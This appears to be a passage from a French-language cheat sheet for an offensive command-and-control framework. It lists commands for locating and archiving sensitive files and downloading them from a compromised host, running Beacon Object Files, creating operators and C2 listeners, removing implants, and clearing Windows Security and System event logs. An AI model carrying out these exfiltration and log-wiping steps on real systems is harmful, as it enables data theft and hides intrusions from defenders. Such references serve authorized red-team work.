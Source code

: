 ### Exfiltration
```bash
# Recherche de fichiers sensibles
find /home "password*"
find "C:\Users" "*.pdf"

# Compression pour exfiltration
tar czf /tmp/data.tar.gz /path/to/sensitive/data
download /tmp/data.tar.gz /local/path/
```

## 🛠️ Extensions et Modules

### Extensions BOF (Beacon Object Files)
```bash
bof-list               # Lister les BOFs disponibles
bof <bof-name> <args>  # Exécuter un BOF
```

### Modules Python
```bash
python /path/to/script.py              # Exécuter un script Python
```

## 🔧 Configuration et Opérateurs

### Gestion des opérateurs
```bash
operators new --name alice --lhost 192.168.1.100    # Créer un opérateur
operators                                           # Lister les opérateurs
```

### Configuration du serveur
```bash
# Certificats personnalisés
https --lhost 0.0.0.0 --lport 443 --cert /path/cert.pem --key /path/key.pem

# Domaines multiples pour DNS
dns --domains example.com,test.com --lhost 0.0.0.0
```

## 🚨 Nettoyage et Sécurité

### Supprimer les traces
```bash
# Supprimer l'implant
rm /path/to/implant

# Supprimer la persistance
# (dépend du type de persistance utilisé)

# Nettoyer les logs Windows
execute "wevtutil cl Security"
execute "wevtutil cl System"
```
